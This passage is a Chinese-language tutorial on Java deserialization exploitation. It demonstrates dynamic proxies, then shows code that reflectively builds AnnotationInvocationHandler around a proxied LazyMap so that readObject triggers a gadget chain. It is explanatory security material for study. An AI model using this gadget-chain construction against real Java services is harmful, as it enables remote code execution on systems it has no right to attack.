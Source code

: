 ExampleInvocationHandler实现了Invocationhandler的invoke方法，作用是在监控调用的方法名是get的时候，返回一 个特殊字符串 Hacked Object 。

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class App {
    public static void main(String[] args) throws Exception {
        InvocationHandler handler = new ExampleInvocationHandler(new
                HashMap());
        // Proxy.newProxyInstance 的第一个参数是ClassLoader，我们用默认的即可；第二个参数是我们需要代理的对象集合；第三个参数是一个实现了InvocationHandler接口的对象，里面包含了具体代理的逻辑。
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        proxyMap.put("hello", "world");
        String result = (String) proxyMap.get("hello");
        System.out.println(result);
    }
}
```

运行App类，发现`String result = (String) proxyMap.get("hello");`获取的字符串不是 “world”而是"Hacked Object"。

##### 利用AnnotationInvocationHandler#invoke触发漏洞

由于AnnotationInvocationHandler实现了InvocationHandler接口，而且刚好其invoke方法中有对Map的put操作，可以触发漏洞，所以我们通过动态代理LazyMap，让AnnotationInvocationHandler#invoke作为LazyMap的动态代理处理器，当任意的代码调用LazyMap的任意方法时，动态代理将拦截该方法并调用AnnotationInvocationHandler#invoke，从而触发漏洞。

```java
// ......
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
// 这几行代码，类似于示例中的InvocationHandler handler = new ExampleInvocationHandler(new HashMap());Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
// 创建了代理实例，这里不是AnnotationInvocationHandler也可以，可以是任何实现了InvocationHandler、接口且在invoke方法中调用了Map.get的类，示例代码见附录代码片段1

handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
// 代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是sun.reflect.annotation.AnnotationInvocationHandler#readObject ，所以我们还需要再用AnnotationInvocationHandler对这个proxyMap进行包裹，也可以不使用AnnotationInvocationHandler，任何在构造函数可以传入proxyMap且readObject中调用proxyMap的方法的类都可以，示例代码见附录代码片段2
```

我们再回头看AnnotationInvocationHandler的readObject方法，这里的memberValues即是LazyMap，其调用entrySet方法被动态代理拦截
